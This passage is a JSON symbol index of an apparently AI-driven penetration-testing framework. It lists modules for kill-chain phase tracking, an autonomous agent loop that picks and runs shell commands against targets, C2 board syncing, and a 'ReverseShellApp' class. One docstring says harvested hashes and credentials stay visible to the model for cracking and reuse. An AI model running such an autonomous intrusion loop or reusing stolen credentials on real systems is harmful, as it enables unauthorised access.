override).\n3. Raw ``world_model.json`` ``phase`` key (legacy).\n4. ``\"recon\"`` as the safe fallback.\n\nArgs:\n    world_model_path: Optional override path for the world model file.\n\nReturns:\n    A canonical CLI phase key.", "kind": "method", "line": 204, "name": "current_phase", "signature": "def current_phase(world_model_path)"}, {"doc": "Advance the kill-chain phase for all connected surfaces.\n\nPersists ``current_phase``, ``phase``, and ``completed_phases``\nin the raw ``world_model.json`` AND advances every host in the\n``WorldModel`` to the corresponding ``HostState``.\n\nArgs:\n    new_phase: A valid canonical phase key.\n    world_model_path: Optional override path for the world model file.\n\nReturns:\n    True when the write succeeded, False otherwise.", "kind": "method", "line": 251, "name": "advance_phase", "signature": "def advance_phase(new_phase, world_model_path)"}, {"doc": "Return the current kill-chain progress as a list of status objects.\n\nEach phase is tagged as ``\"done\"``, ``\"active\"``, or ``\"pending\"``.\nSuitable for rendering in any UI (CLI, web, GUI, TUI).\n\nArgs:\n    world_model_path: Optional override path for the world model file.\n\nReturns:\n    A list of ``PhaseStatus`` named tuples in kill-chain order.", "kind": "method", "line": 315, "name": "get_progress", "signature": "def get_progress(world_model_path)"}, {"doc": "Return a compact single-line progress indicator ``[R>E>X>P>L]``.\n\nArgs:\n    current_phase: The active phase key.\n    phases_entered: Optional list of phases the operator has entered.\n\nReturns:\n    A string suitable for inline display (e.g., below the prompt).", "kind": "method", "line": 364, "name": "compact_progress", "signature": "def compact_progress(current_phase, phases_entered)"}, {"doc": "Return an ordered ``(key, label, hex_color)`` triple for every phase.\n\nConvenience for UI builders that need to render every phase.", "kind": "method", "line": 384, "name": "phases_for_display", "signature": "def phases_for_display()"}, {"doc": "Return the zero-based index of a canonical phase.", "kind": "method", "line": 395, "name": "phase_index", "signature": "def phase_index(phase)"}, {"doc": "Return a single, render-agnostic snapshot of the whole kill-chain.\n\nThis is the one payload every surface (CLI, Flask dashboard, GUI2,\nTextual TUI, tips engine, REST API) consumes. It centralises the\ncurrent phase, the completed set, per-phase progress, host states and\na compact progress glyph so surfaces cannot diverge.\n\nArgs:\n    world_model_path: Optional override path for the world model file.\n\nReturns:\n    A JSON-serialisable dict with keys: ``current_phase``,\n    ``completed_phases``, ``progress``, ``host_states``,\n    ``compact`` and ``updated_at``.", "kind": "method", "line": 400, "name": "snapshot", "signature": "def snapshot(world_model_path)"}]}, {"id": "modules/kivi.py", "kind": "module", "label": "kivi.py", "language": "py", "sha256": "b33e6314846b7a1b", "symbol_count": 3, "symbols": [{"kind": "class", "line": 11, "name": "ReverseShellApp", "signature": "class ReverseShellApp(App)"}, {"kind": "method", "line": 12, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 27, "name": "connect_to_server", "signature": "def connect_to_server(self, instance)"}]}, {"doc": "Agentic tool-calling bridge for the loop and the main agent.  The loop's planner/worker use one-shot completions by default. This module upgrades them to real tool calling through the existing OpenAI-compatible backends (groq/openai/deepseek): :class:`AgentRunner` already speaks the function-calling protocol, so here we add  - tool registration for loop operations (the worker builds the guarded executors; this module only wires schemas and the agent loop), - per-intent and per-session conversation persistence, so a resumed intent continues the same model conversation instead of replaying, - an external ``opencode run`` backend for the main agent (full MCP tooling through that CLI) with best-effort session capture.  Native mode keeps guard/scope/audit parity because every tool call is executed by the worker's guarded runner.", "id": "modules/lazy_agent.py", "kind": "module", "label": "lazy_agent.py", "language": "py", "sha256": "8e072a203e228d22", "symbol_count": 32, "symbols": [{"doc": "Return the hard per-turn model timeout from configuration.\n\n``payload.json`` key ``agent_model_timeout`` overrides it; the floor\nkeeps slow 70B cloud generations viable while a hung backend can no\nlonger pin a worker forever (it raises into the member failover).", "kind": "function", "line": 41, "name": "model_timeout_sec", "signature": "def model_timeout_sec()"}, {"doc": "Return whether agentic tool calling is enabled by configuration.\n\n``payload.json`` key ``agent_tool_calling`` disables it explicitly;\nabsent means enabled whenever a compatible backend resolves.", "kind": "function", "line": 57, "name": "tool_calling_enabled", "signature": "def tool_calling_enabled()"}, {"doc": "Return the bounded agent step budget from configuration.", "kind": "function", "line": 72, "name": "max_iterations", "signature": "def max_iterations()"}, {"doc": "Return a raw tool-calling backend for the best pool member, or None.\n\nMembers are tried by priority; only the openai-compatible legs can\nspeak function calling here. Ollama/Anthropic/toposwarm members are\nskipped so the loop degrades to the deterministic path instead of\nerroring mid-intent. ``exclude`` holds model names already tried\nthis intent so a failing member cannot pin the whole attempt.", "kind": "function", "line": 83, "name": "resolve_agentic_model", "signature": "def resolve_agentic_model(exclude)"}, {"doc": "Turn on token-level streaming for a runner when the stage is on.\n\nArgs:\n    runner: ObservableAgentRunner about to run.\n    on_event: Optional (kind, name, text) observer to receive\n        ``delta`` and ``think`` events.", "kind": "function", "line": 123, "name": "_enable_streaming", "signature": "def _enable_streaming(runner, on_event)"}, {"doc": "AgentRunner that reports every tool call and result to a sink.", "kind": "class", "line": 145, "name": "ObservableAgentRunner", "signature": "class ObservableAgentRunner(AgentRunner)"}, {"doc": "JSON fallback for tool-call objects from any model SDK.", "kind": "function", "line": 221, "name": "_json_default", "signature": "def _json_default(value)"}, {"doc": "Recursively coerce one value into plain JSON types.", "kind": "function", "line": 237, "name": "_deep_clean", "signature": "def _deep_clean(value, _depth)"}, {"doc": "Round-trip messages through JSON so SDK objects persist cleanly.", "kind": "function", "line": 253, "name": "_json_safe", "signature": "def _json_safe(messages)"}, {"doc": "Per-task persistence of agent conversations (intents and sessions).", "kind": "class", "line": 261, "name": "ConversationStore", "signature": "class ConversationStore"}, {"doc": "Register tool specs (name, description, func, parameters, required).", "kind": "function", "line": 322, "name": "register_tools", "signature": "def register_tools(runner, specs)"}, {"doc": "Run one agentic intent attempt with resume seeding.\n\nArgs:\n    model: Raw tool-calling backend.\n    task_id: Task whose conversation store persists the session.\n    intent_id: Intent the conversation belongs to.\n    system_prompt: Invariant contract (goal, intent, scope, rules).\n    launch_prompt: The user turn for this attempt.\n    tools: Tool specs registered on the runner.\n    on_event: Optional (kind, name, text) observer.\n\nReturns:\n    Dict with reply, tool usage and persisted message count.", "kind": "function", "line": 335, "name": "run_worker_session", "signature": "def run_worker_session(model, task_id, intent_id, system_prompt, launch_prompt, tools, on_event)"}, {"doc": "Run one main-agent turn, resuming the stored session conversation.", "kind": "function", "line": 374, "name": "run_main_session", "signature": "def run_main_session(model, session_id, system_prompt, prompt, tools, on_event)"}, {"doc": "Run one headless ``opencode run`` task with MCP tooling.\n\nBest-effort session capture: when the JSON stream carries a session\nid it is returned so the next call can resume with ``--session``.\n\nArgs:\n    prompt: Task text handed to the external agent.\n    session_id: Existing session to continue, when known.\n    agent: Optional opencode agent name (``--agent``).\n    cwd: Working directory for the agent.\n    timeout_sec: Hard timeout for the child process.\n\nReturns:\n    Dict with reply, captured session id and return code; never raises.", "kind": "function", "line": 396, "name": "run_external_opencode", "signature": "def run_external_opencode(prompt, session_id, agent, cwd, timeout_sec)"}, {"doc": "Run one detached ``hermes chat --oneshot`` task.\n\nHermes counterpart of :func:`run_external_opencode` so the\norchestrator can dispatch single tasks to either agent runtime.\nUses the local Qwen server flags; Hermes resolves its own provider\nconfig, so a down server surfaces as a terse error, never a hang.\n\nArgs:\n    prompt: Task text for the agent.\n    session_id: Existing session to resume (``--resume``), when known.\n    cwd: Working directory for the agent.\n    timeout_sec: Hard timeout for the child process.\n    max_turns: Optional ``--max-turns`` cap (0 leaves default).\n    run_budget: Optional ``--run-budget`` seconds cap (0 leaves default).\n\nReturns:\n    Dict with reply, session id and return code; never raises.", "kind": "function", "line": 472, "name": "run_external_hermes", "signature": "def run_external_hermes(prompt, session_id, cwd, timeout_sec, max_turns, run_budget)"}, {"doc": "Extract a session id from one opencode JSON event line, if present.", "kind": "function", "line": 556, "name": "_session_from_line", "signature": "def _session_from_line(line)"}, {"doc": "Kill a child process group after the timeout; returns the timer.", "kind": "function", "line": 578, "name": "_process_watchdog", "signature": "def _process_watchdog(timeout_sec, process)"}, {"doc": "Bind the model and the optional event sink (kind, name, text).", "kind": "method", "line": 148, "name": "__init__", "signature": "def __init__(self, model, system_prompt, max_iterations, on_event)"}, {"doc": "Run the tool through the base runner, then report the result.", "kind": "method", "line": 159, "name": "_process_tool_call", "signature": "def _process_tool_call(self, tool_call)"}, {"doc": "Base loop plus final-turn persistence for true resume.", "kind": "method", "line": 168, "name": "run", "signature": "def run(self, user_input)"}, {"doc": "Wrap one model turn with start/end, keep-alive and hard timeout.\n\nA slow or hung backend must never be invisible nor eternal: while\nthe call blocks, the runner reports every ``MODEL_KEEPALIVE_SEC``\nthat the model is still being awaited, and past\n:func:`model_timeout_sec` the turn raises into the member\nfailover (the SDK call itself cannot be cancelled, so its thread\nstays daemon-leaked until the backend answers or dies).", "kind": "method", "line": 174, "name": "_call_model", "signature": "def _call_model(self)"}, {"doc": "Bind the conversation store for one task (``main`` when empty).", "kind": "method", "line": 264, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Load the conversation payload.", "kind": "method", "line": 269, "name": "_load", "signature": "def _load(self)"}, {"doc": "Return the stored messages for one intent (resume seed).", "kind": "method", "line": 273, "name": "intent_messages", "signature": "def intent_messages(self, intent_id)"}, {"doc": "Persist the tail of one intent conversation.", "kind": "method", "line": 278, "name": "save_intent", "signature": "def save_intent(self, intent_id, messages)"}, {"doc": "Return one main-agent session payload (empty when unknown).", "kind": "method", "line": 287, "name": "session", "signature": "def session(self, session_id)"}, {"doc": "List main-agent sessions with title, message count and age.", "kind": "method", "line": 291, "name": "sessions", "signature": "def sessions(self)"}, {"doc": "Persist one main-agent session conversation tail.", "kind": "method", "line": 305, "name": "save_session", "signature": "def save_session(self, session_id, messages, title)"}, {"doc": "Drop every stored intent conversation (fresh agent start).", "kind": "method", "line": 315, "name": "reset_intents", "signature": "def reset_intents(self)"}, {"kind": "function", "line": 583, "name": "_kill", "signature": "def _kill()"}, {"kind": "function", "line": 190, "name": "_invoke", "signature": "def _invoke()"}, {"kind": "function", "line": 196, "name": "_tick", "signature": "def _tick()"}]}, {"doc": "Bidirectional LAZY <-> LazyOwn bridge.  LAZY runs standalone under sessions/lazy with its own tasks, assets, experiment graphs, activity transcripts, traffic logs and guard audits. This bridge syncs that universe with LazyOwn world_model, objectives, evidence vault, traffic recorder, finding lifecycle and campaign DB in both directions without touching LAZY runtime files.", "id": "modules/lazy_bridge.py", "kind": "module", "label": "lazy_bridge.py", "language": "py", "sha256": "b785bf34c7a26180", "symbol_count": 19, "symbols": [{"doc": "Resolve runtime data directory.\n\nReturns:\n    LAZY_DIR holding tasks, assets and graphs.", "kind": "function", "line": 35, "name": "_data_dir", "signature": "def _data_dir()"}, {"doc": "Read json tolerating missing files.\n\nArgs:\n    path: File path.\n    default: Default payload.\n\nReturns:\n    Parsed payload or default.", "kind": "function", "line": 47, "name": "_read_json", "signature": "def _read_json(path, default)"}, {"doc": "Read jsonl tolerating missing files.\n\nArgs:\n    path: File path.\n\nReturns:\n    Row list.", "kind": "function", "line": 64, "name": "_read_jsonl", "signature": "def _read_jsonl(path)"}, {"doc": "Load LAZY task registry.\n\nReturns:\n    Task map keyed by task id.", "kind": "function", "line": 88, "name": "lazy_tasks", "signature": "def lazy_tasks()"}, {"doc": "Load LAZY asset nodes.\n\nReturns:\n    Asset node list.", "kind": "function", "line": 99, "name": "lazy_assets", "signature": "def lazy_assets()"}, {"doc": "Load experiment graph for a task.\n\nArgs:\n    task_id: LAZY task id.\n\nReturns:\n    Graph dict with nodes, edges and anchors.", "kind": "function", "line": 110, "name": "lazy_graph", "signature": "def lazy_graph(task_id)"}, {"doc": "Load activity transcript for a task.\n\nArgs:\n    task_id: LAZY task id.\n\nReturns:\n    Activity row list.", "kind": "function", "line": 123, "name": "lazy_activity", "signature": "def lazy_activity(task_id)"}, {"doc": "Load traffic log for a task.\n\nArgs:\n    task_id: LAZY task id.\n\nReturns:\n    Traffic row list.", "kind": "function", "line": 135, "name": "lazy_traffic", "signature": "def lazy_traffic(task_id)"}, {"doc": "Load guard audit for a task.\n\nArgs:\n    task_id: LAZY task id.\n\nReturns:\n    Guard audit row list.", "kind": "function", "line": 147, "name": "lazy_guard_audit", "signature": "def lazy_guard_audit(task_id)"}, {"doc": "Summarize LAZY universe and last sync cursor.\n\nReturns:\n    Status dict with counts per task.", "kind": "function", "line": 159, "name": "bridge_status", "signature": "def bridge_status()"}, {"doc": "Derive host, service and vuln observations from graph facts.\n\nArgs:\n    graph: Experiment graph.\n\nReturns:\n    Observation dict keyed by ip.", "kind": "function", "line": 180, "name": "_extract_hosts_from_graph", "signature": "def _extract_hosts_from_graph(graph)"}, {"doc": "Sync LAZY graphs and assets into LazyOwn world model.\n\nReturns:\n    Summary with hosts, services and facts synced.", "kind": "function", "line": 206, "name": "pull_to_world_model", "signature": "def pull_to_world_model()"}, {"doc": "Inject open LAZY tasks as LazyOwn objectives without duplicates.\n\nReturns:\n    Summary with injected count.", "kind": "function", "line": 251, "name": "pull_to_objectives", "signature": "def pull_to_objectives()"}, {"doc": "Confirm LAZY finding nodes in LazyOwn finding lifecycle.\n\nReturns:\n    Summary with confirmed count.", "kind": "function", "line": 286, "name": "pull_findings_to_lifecycle", "signature": "def pull_findings_to_lifecycle()"}, {"doc": "Mirror LAZY traffic logs into LazyOwn traffic recorder index.\n\nReturns:\n    Summary with mirrored count.", "kind": "function", "line": 314, "name": "pull_traffic_to_recorder", "signature": "def pull_traffic_to_recorder()"}, {"doc": "Export a LazyOwn objective as an LAZY-compatible task draft.\n\nArgs:\n    goal: Objective text.\n    scope: Scope ip list.\n\nReturns:\n    Draft task record written under sessions/lazy_drafts/.", "kind": "function", "line": 344, "name": "push_objective_to_lazy", "signature": "def push_objective_to_lazy(goal, scope)"}, {"doc": "Mirror loop tasks into the lazyc2 Kanban board (sessions/tasks.json).\n\nOne C2 card per loop task, upserted through a persisted id map so\nrepeated syncs update the card instead of duplicating it. Statuses\nfollow the C2 vocabulary (New/Started/Blocked/Review/Done).\n\nArgs:\n    only: Optional task id subset to sync.\n\nReturns:\n    Dict with created/updated counts.", "kind": "function", "line": 369, "name": "push_tasks_to_c2", "signature": "def push_tasks_to_c2(only)"}, {"doc": "Run full bidirectional pull plus lifecycle, traffic and board mirror.\n\nReturns:\n    Combined sync summary.", "kind": "function", "line": 434, "name": "sync_all", "signature": "def sync_all()"}, {"doc": "Record sync cursor best effort.\n\nArgs:\n    action: Sync action name.\n    summary: Action summary.", "kind": "function", "line": 449, "name": "_record_sync", "signature": "def _record_sync(action, summary)"}]}, {"doc": "Full CLI catalog for the Lazy autonomous loop.  The loop historically routed only seven ``auto_*`` verbs plus a handful of hardcoded probes. This module discovers every ``do_<verb>`` command of the cmd2 shell (``cli/commands/*.py`` plus ``lazyown.py``) so the planner and the workers can propose and execute any of the 800+ Lazy commands through the same Guard and scope path as the built-in verbs.  Stdlib only. Lazy imports keep ``auto_registry`` cycle-free.", "id": "modules/lazy_cli_bridge.py", "kind": "module", "label": "lazy_cli_bridge.py", "language": "py", "sha256": "8ff112e0fe6724b9", "symbol_count": 13, "symbols": [{"doc": "Return shell sources that may declare commands.", "kind": "function", "line": 74, "name": "_source_files", "signature": "def _source_files()"}, {"doc": "Return mtimes of command sources for cache invalidation.", "kind": "function", "line": 82, "name": "_source_mtimes", "signature": "def _source_mtimes()"}, {"doc": "Scan shell sources for do_<verb> definitions.", "kind": "function", "line": 93, "name": "_discover", "signature": "def _discover()"}, {"doc": "Return every discovered shell verb, cached by source mtime.", "kind": "function", "line": 106, "name": "cli_verbs", "signature": "def cli_verbs()"}, {"doc": "Return True when name is a real shell command.", "kind": "function", "line": 125, "name": "is_cli_verb", "signature": "def is_cli_verb(name)"}, {"doc": "Map a verb to its kill-chain phase via keyword affinity.", "kind": "function", "line": 131, "name": "phase_for", "signature": "def phase_for(verb)"}, {"doc": "Classify a verb as safe, exploit or high risk.", "kind": "function", "line": 140, "name": "risk_for", "signature": "def risk_for(verb)"}, {"doc": "Return whether the verb usually carries a target argument.", "kind": "function", "line": 150, "name": "needs_target_for", "signature": "def needs_target_for(verb)"}, {"doc": "Build a shell line for any CLI verb bound to target.\n\nArgs:\n    verb: Canonical shell verb without parameters.\n    target: Optional target appended when the verb takes one.\n\nReturns:\n    Command line ready for the shell executor.\n\nRaises:\n    KeyError: Unknown verb.\n    ValueError: Empty verb name.", "kind": "function", "line": 158, "name": "build_cli_command", "signature": "def build_cli_command(verb, target)"}, {"doc": "Search the full CLI catalog by keyword and phase.\n\nArgs:\n    query: Substring filter over verb names.\n    phase: Optional kill-chain phase filter.\n    limit: Max entries returned.\n\nReturns:\n    List of verb descriptors with name, phase and risk.", "kind": "function", "line": 185, "name": "search_cli_verbs", "signature": "def search_cli_verbs(query, phase, limit)"}, {"doc": "Return a compact verb list for LLM prompt injection.", "kind": "function", "line": 211, "name": "cli_catalog_for_phase", "signature": "def cli_catalog_for_phase(phase, limit)"}, {"doc": "Return whether the loop may route any CLI verb.\n\nReads ``payload.json`` -> ``orchestrator`` -> ``full_cli``. Any load\nfailure falls back to the default so a broken payload never widens\nthe loop silently in the wrong direction.", "kind": "function", "line": 219, "name": "full_cli_enabled", "signature": "def full_cli_enabled()"}, {"doc": "Persist the full-CLI routing flag and return the new value.\n\nArgs:\n    enabled: New flag value.\n\nReturns:\n    Stored value after persisting.", "kind": "function", "line": 242, "name": "set_full_cli", "signature": "def set_full_cli(enabled)"}]}, {"doc": "Lazy autonomous loop engine: single orchestrator for lazy_* commands.  Every subsystem keeps exact behavior under operator-facing ``lazy_*`` names. Storage lives under ``sessions/lazy/``.", "id": "modules/lazy_engine.py", "kind": "module", "label": "lazy_engine.py", "language": "py", "sha256": "652ee15a5fc528cf", "symbol_count": 1, "symbols": [{"doc": "Single orchestrator exposed under the lazy_* command surface.", "kind": "class", "line": 55, "name": "LazyEngine", "signature": "class LazyEngine(LazyLoopEngine)"}]}, {"doc": "Capability installer for the Lazy autonomous loop.  Ports the installer-agent idea with Lazy safety semantics: the loop never invents install commands. A fixed allowlist maps missing tool binaries to reviewed one-line install recipes; anything off-list yields no intent. Install intents only resolve when the payload flag ``installer_enabled`` is set (default off), and every install still crosses the normal Guard and intercept path, so pairing this with an ask-rule (``lazy_guard rule-add \"apt-get install\" ask installs-write-to-host``) keeps host mutation operator-gated.  Stdlib only.", "id": "modules/lazy_installer.py", "kind": "module", "label": "lazy_installer.py", "language": "py", "sha256": "a74bb058b995fb00", "symbol_count": 6, "symbols": [{"doc": "Return whether the loop may resolve install intents.\n\nReads ``payload.json`` -> ``orchestrator`` -> ``installer``. Defaults\nto off so host mutation stays an explicit operator decision. The flag\nlives under the free-form orchestrator section so enabling it never\nadds a top-level payload key (the schema-coverage contract).", "kind": "function", "line": 41, "name": "installer_enabled", "signature": "def installer_enabled()"}, {"doc": "Persist the installer flag and return the stored value.", "kind": "function", "line": 58, "name": "set_installer_enabled", "signature": "def set_installer_enabled(enabled)"}, {"doc": "Return the allowlisted install recipe for one tool, or None.", "kind": "function", "line": 70, "name": "install_command_for", "signature": "def install_command_for(tool)"}, {"doc": "Build the canonical install intent summary for one tool.", "kind": "function", "line": 75, "name": "intent_for", "signature": "def intent_for(tool)"}, {"doc": "Extract the tool name from an install intent, else empty string.", "kind": "function", "line": 80, "name": "tool_from_intent", "signature": "def tool_from_intent(text)"}, {"doc": "Resolve an install intent to its recipe, or None.\n\nReturns None when the installer is disabled, the tool is already\npresent, or the tool has no allowlisted recipe.", "kind": "function", "line": 88, "name": "steps_for_install", "signature": "def steps_for_install(text)"}]}, {"doc": "Intel feed from the Lazy autonomous loop.  Every routing decision the loop makes (which shell verb, for which intent, with what outcome) is recorded as JSONL under ``sessions/lazy/`` and fused into the :class:`WorldModel` on sync. The intel graph (``modules.intel_fusion.build_intel_graph``) and the attack graph (``modules.attack_surface3d.build_attack_graph``) are derived views over ``sessions/`` artefacts, so feeding the world model feeds both graphs and everything the orchestrator reads.  The same records back the TopoSwarm orchestrator dataset, see :mod:`modules.lazy_orchestrator_dataset`.  Stdlib only. Never raises; all entry points degrade to no-ops on error.", "id": "modules/lazy_intel.py", "kind": "module", "label": "lazy_intel.py", "language": "py", "sha256": "254fef87f822aed8", "symbol_count": 14, "symbols": [{"doc": "Return current epoch seconds.", "kind": "function", "line": 30, "name": "_now", "signature": "def _now()"}, {"doc": "Return routing log path, ensuring the directory exists.", "kind": "function", "line": 35, "name": "_log_path", "signature": "def _log_path()"}, {"doc": "Mask secrets in stored text, mirroring console redaction.\n\nBeyond pattern redaction, configured credential values from the live\npayload are replaced outright (the PentAGI secret-patterns idea), so\nrouting records and training rows never persist live passwords or keys.", "kind": "function", "line": 41, "name": "_mask", "signature": "def _mask(text)"}, {"doc": "Append one record to the routing log. Never raises.", "kind": "function", "line": 70, "name": "_append", "signature": "def _append(record)"}, {"doc": "Classify where a resolved step likely came from.\n\nArgs:\n    command: Resolved shell command line.\n    intent_text: Original intent summary.\n\nReturns:\n    One of auto, cli, heuristic.", "kind": "function", "line": 79, "name": "infer_source", "signature": "def infer_source(command, intent_text)"}, {"doc": "Describe a command with phase and risk. Never raises.", "kind": "function", "line": 105, "name": "describe_command", "signature": "def describe_command(command)"}, {"doc": "Record which verb the loop chose for one intent.\n\nArgs:\n    task_id: Loop task identifier.\n    intent_id: Exploration node the command serves.\n    command: Resolved shell command line.\n    intent_text: Original intent summary for source inference.\n    target: Bound target, if any.\n    stack: Target stack fingerprint for cross-task priors.\n\nReturns:\n    The stored record.", "kind": "function", "line": 120, "name": "record_routing_decision", "signature": "def record_routing_decision(task_id, intent_id, command, intent_text, target, stack)"}, {"doc": "Record the terminal outcome of one executed command.\n\nArgs:\n    task_id: Loop task identifier.\n    intent_id: Exploration node the command served.\n    command: Executed shell command line.\n    state: Terminal intent state (done, blocked, exhausted, stopped).\n    facts: Facts persisted by the intent.\n    findings: Findings reported by the intent.\n    stack: Target stack fingerprint for cross-task priors.\n\nReturns:\n    The stored record.", "kind": "function", "line": 160, "name": "record_routing_outcome", "signature": "def record_routing_outcome(task_id, intent_id, command, state, facts, findings, stack)"}, {"doc": "Read routing records, optionally filtered by task.\n\nArgs:\n    task_id: Only return records for this task when set.\n    limit: Max records from the tail.\n\nReturns:\n    Parsed record list, oldest first.", "kind": "function", "line": 202, "name": "read_decisions", "signature": "def read_decisions(task_id, limit)"}, {"doc": "Mask only operator-configured credential values in live text.\n\nUnlike :func:`_mask` (defense in depth for stored records), this keeps\ndiscovered loot (hashes, target creds) visible to the model — the loop\nneeds them for cracking and reuse reasoning — while configured secrets\nnever reach cloud backends. Mirrors the secret-patterns approach of\nonly masking known-configured values in transit.", "kind": "function", "line": 228, "name": "mask_configured", "signature": "def mask_configured(text)"}, {"doc": "Fingerprint the target stack from service assets.\n\nSorted service values joined short, so equal stacks share priors\nacross engagements (the cross-task learning query) while unseen\nstacks fall back to global priors.\n\nArgs:\n    assets: Object exposing ``list(\"service\")`` with ``.value``.\n\nReturns:\n    Stack fingerprint, empty when unknowable. Never raises.", "kind": "function", "line": 254, "name": "stack_signature", "signature": "def stack_signature(assets)"}, {"doc": "Return True when value parses as an IP literal.", "kind": "function", "line": 274, "name": "_is_ip_literal", "signature": "def _is_ip_literal(value)"}, {"doc": "Fuse routing records into the world model as host notes.\n\nOnly decisions bound to IP-literal targets write notes, so the world\nmodel gains per-host evidence of what the loop already tried. The\nintel and attack graphs rebuild from the world model, hence from\nthese notes as well.\n\nArgs:\n    task_id: Fuse only this task when set, else everything recent.\n\nReturns:\n    Summary with fused count. Never raises.", "kind": "function", "line": 285, "name": "fuse_routing_decisions", "signature": "def fuse_routing_decisions(task_id)"}, {"doc": "Export activity records as trace spans for observability.\n\nMaps the existing trace fields onto span semantics: ``task`` is the\ntrace id, ``tool_use_id`` (or a synthetic ``kind:index`` id) is the\nspan id, ``intent_id`` is the parent, and ``tool``/``result`` pairs\nsharing a ``tool_use_id`` join into one span with duration. Point\nrecords without a pair become single-event spans.\n\nArgs:\n    task_id: Loop task identifier.\n    out: Destination path. Defaults to ``spans_<task>.jsonl``.\n\nReturns:\n    Summary with spans written and destination. Never raises.", "kind": "function", "line": 324, "name": "export_spans", "signature": "def export_spans(task_id, out)"}]}, {"doc": "Lazy autonomous loop for LazyOwn.  Double-graph engine without external services.  Semantics: AssetGraph is global shared truth, ExplorationGraph is per-task, anchors join them, Planner is the sole intent generator emitting 0..N intents per wakeup, each Worker claims exactly ONE intent and writes facts back, Guard gates every tool call, Enrich completes DNS/HTTP asynchronously, Traffic records every execution, Retester replays findings to a verdict, cold compaction folds stale nodes.  Persistence: JSON files under ``sessions/lazy/`` so every state survives restarts and stays inspectable from the CLI. Legacy ``sessions/lazy/`` files are migrated automatically on first use.  Usage: from modules.lazy_loop import LazyLoopEngine engine = LazyLoopEngine() task = engine.create_task(\"gain initial access on 10.10.11.5\") engine.run(task.task_id)", "id": "modules/lazy_loop.py", "kind": "module", "label": "lazy_loop.py", "language": "py", "sha256": "cbafdc566db207c5", "symbol_count": 456, "symbols": [{"doc": "Reject obvious hallucinations such as ``nmap --block``.\n\nOnly long flags of the one binary the loop uses heavily enough to\nhallucinate are validated; everything else passes untouched, so the\nfilter can never block a legitimate operator command.", "kind": "function", "line": 150, "name": "plausible_command", "signature": "def plausible_command(command)"}, {"doc": "Return True when a tool aborted because sudo cannot prompt here.", "kind": "function", "line": 236, "name": "_sudo_unavailable", "signature": "def _sudo_unavailable(output)"}, {"doc": "Return True when ``value`` parses as an IPv4/IPv6 literal.", "kind": "function", "line": 242, "name": "_is_ip_literal", "signature": "def _is_ip_literal(value)"}, {"doc": "Extract the host part of a command token, or empty when none.\n\nHandles bare IPv4 addresses, bare hostnames and URLs (``http://h:p/x``)\nso the worker sanitizer can retarget foreign hosts to the intent target.", "kind": "function", "line": 253, "name": "_host_from_token", "signature": "def _host_from_token(token)"}, {"doc": "Return True once the shell is tearing the loop runtime down.", "kind": "function", "line": 305, "name": "loop_exiting", "signature": "def loop_exiting()"}, {"doc": "Track one round executor so shutdown can cancel it.", "kind": "function", "line": 310, "name": "_register_loop_executor", "signature": "def _register_loop_executor(executor)"}, {"doc": "Drop one round executor from the shutdown set.", "kind": "function", "line": 316, "name": "_unregister_loop_executor", "signature": "def _unregister_loop_executor(executor)"}, {"doc": "Guarantee process death even with threads stuck in socket reads.\n\n``qa``/``exit`` run every graceful teardown first; the watchdog only\nfires when the interpreter is still alive past the budget (atexit\njoining a ThreadPoolExecutor whose workers block on a hung LLM\nserver). Daemon by design: a clean exit never triggers it.", "kind": "function", "line": 322, "name": "arm_exit_watchdog", "signature": "def arm_exit_watchdog(seconds)"}, {"doc": "Mask API keys/tokens before a string reaches logs or the panel.\n\nShell verbs echo their own command lines (``export GROQ_API_KEY=...``)\ninto the transcript and activity store; without scrubbing, one\n``lazy_trace`` read or git slip leaks the operator's cloud keys.", "kind": "function", "line": 363, "name": "scrub_secrets", "signature": "def scrub_secrets(text)"}, {"doc": "Best-effort chmod 600 on a secret-bearing file; never raises.", "kind": "function", "line": 387, "name": "_restrict_file", "signature": "def _restrict_file(path)"}, {"doc": "Return the AES key for channel secrets, or None when unconfigured.", "kind": "function", "line": 395, "name": "_channel_encryption_key", "signature": "def _channel_encryption_key()"}, {"doc": "Encrypt a channel password for storage; plaintext fallback when no key.\n\nWhen ``LAZYOWN_SECRET_KEY`` (or ``sessions/.secret_key``) is set the\nvalue is AES-256-GCM sealed and prefixed ``enc:v1:``. Otherwise the\nvalue is stored as-is with 0600 file perms and a one-time warning;\ncallers must still restrict the store file.", "kind": "function", "line": 411, "name": "_encrypt_channel_secret", "signature": "def _encrypt_channel_secret(plaintext)"}, {"doc": "Reveal a channel password stored by :func:`_encrypt_channel_secret`.", "kind": "function", "line": 449, "name": "_decrypt_channel_secret", "signature": "def _decrypt_channel_secret(stored)"}, {"doc": "Signal a running engine that new work landed for its task.\n\nCalled from :meth:`ActivityLog.emit` for meaningful events, this is\nwhat makes the loop event-driven: an operator hint, a finished\nworker or a scheduler fire wakes the planner immediately instead of\nwaiting for the heartbeat.", "kind": "function", "line": 467, "name": "wake_task", "signature": "def wake_task(task_id)"}, {"doc": "Register and return the process-wide wake event for a task.", "kind": "function", "line": 481, "name": "_wake_event", "signature": "def _wake_event(task_id)"}, {"doc": "Forget the wake event after a run finishes.", "kind": "function", "line": 491, "name": "_drop_wake_event", "signature": "def _drop_wake_event(task_id)"}, {"doc": "Track a live Worker so shell exit can close its side channels.", "kind": "function", "line": 501, "name": "register_worker", "signature": "def register_worker(worker)"}, {"doc": "Drop a finished Worker from the shutdown registry.", "kind": "function", "line": 507, "name": "unregister_worker", "signature": "def unregister_worker(worker)"}, {"doc": "Tear down every loop-owned resource; safe on any exit path.\n\nCalled by ``qa``, ``exit``, EOF and ``atexit``: kills streaming\nchildren (whole process groups), closes each worker's persistent\nshell session, pauses every non-terminal task so it resumes cleanly\nwith ``lazy_loop --task T``, stops the recorder proxy and releases\nany wake waiters. Never raises.", "kind": "function", "line": 513, "name": "shutdown_loop_runtime", "signature": "def shutdown_loop_runtime(reason)"}, {"doc": "Return whether NOA raw archiving is enabled (default off).", "kind": "function", "line": 599, "name": "_noa_enabled", "signature": "def _noa_enabled()"}, {"doc": "Return current epoch seconds.", "kind": "function", "line": 641, "name": "_now", "signature": "def _now()"}, {"doc": "Return JSON store path, ensuring the directory exists.", "kind": "function", "line": 646, "name": "_store_path", "signature": "def _store_path(name)"}, {"doc": "Load JSON mapping from path or return default copy.", "kind": "function", "line": 659, "name": "_load_json", "signature": "def _load_json(path, default)"}, {"doc": "Atomically persist payload to path.\n\nParallel workers share one store directory, so each write uses its\nown process/thread-scoped temp file under a lock; the final replace\nstays atomic for readers.", "kind": "function", "line": 669, "name": "_save_json", "signature": "def _save_json(path, payload)"}, {"doc": "Normalize 